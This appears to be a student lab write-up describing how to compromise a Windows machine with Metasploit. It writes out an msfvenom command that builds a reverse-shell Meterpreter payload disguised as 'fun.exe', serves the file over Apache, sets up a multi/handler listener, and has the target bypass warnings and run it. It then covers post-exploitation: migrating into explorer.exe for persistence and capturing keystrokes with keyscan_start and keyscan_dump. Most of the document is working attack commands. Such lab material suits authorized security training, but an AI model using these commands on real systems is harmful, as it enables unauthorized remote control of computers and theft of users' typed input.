# Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
Find the attackers ip address using ifconfig


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/04cdb2ad-171d-4bc8-9f3b-de13c01bed03)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/12d68b0b-ae6f-49f8-ad66-22ee7d3b6d54)


copy the fun.exe into the apache /var/www/html folder


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/1b07c03c-fc3d-4f0c-b6f7-dbaec901978c)


Start apache server sudo systemctl apache2 start


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/a76c6064-4e3a-4e8f-a6c8-701a0aae22ac)


Check the status of apache2


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/114ded0d-212a-480a-809c-1816157058f2)


Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/b1f3e83e-c94b-4315-8c16-e1c501b08cdc)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/3f2f692a-0757-4c22-86db-8fffef3677d6)


Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/2d555ca3-7a9e-49df-9330-7a2c602421b2)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156 The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/6a3d422d-0ce4-46a9-99eb-f7a1e5135b7d)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type 
in some text, such as your name.


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/50aa8203-6af7-48f5-8c89-15c8093b5821)



keyscan_dump Shows the keystrokes captured so far


![image](https://github.com/Srujana0303/Compromising-windows-using-Metasploit/assets/132996836/969c8b8d-6972-43ed-ba74-4e847bf277aa)



## RESULT:


The Metasploit framework is  used to compromise windows and is examined successfully.
